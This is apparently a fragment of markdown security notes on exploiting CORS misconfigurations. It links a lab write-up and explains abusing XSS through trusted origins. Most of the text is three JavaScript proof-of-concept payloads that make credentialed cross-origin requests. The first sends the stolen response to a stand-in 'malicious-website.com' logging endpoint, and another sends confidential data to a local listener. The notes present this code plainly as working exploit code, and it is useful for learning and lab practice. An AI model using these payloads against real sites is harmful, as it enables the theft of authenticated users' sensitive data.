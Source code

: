 ```html
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send();
function reqListener() {
		location='malicious-website.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```
### [practice in lab](https://skf.gitbook.io/asvs-write-ups/cors-exploitation/cors-exploitation)
- you can exploit by this codes
```html
<script>
		function loadXMLDoc() {
			var xhr = new XMLHttpRequest();
			xhr.onreadystatechange = function() {
				if(this.readyState == 4 && this.status == 200) {
					var xhr2 = new  XMLHttpRequest
					<!-- console.log(this.responseText); -->
					xhr2.open('GET', 'http://127.0.0.1/s.html/?' + escape(this.responseText));
					xhr2.withCredentials = true
					xhr2.send();

				}
			};
			xhr.open('GET', 'http://127.0.0.1:5000/confidential');
			xhr.withCredentials  = true;
			xhr.send();
		}
		loadXMLDoc();
	</script>	

```


```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://0.0.0.0:5000/confidential', true);
  req.withCredentials = true;
  req.send();

  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>

<p id="stolenInfo"></p>
```
### Exploiting XSS via CORS trust relationships
If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.
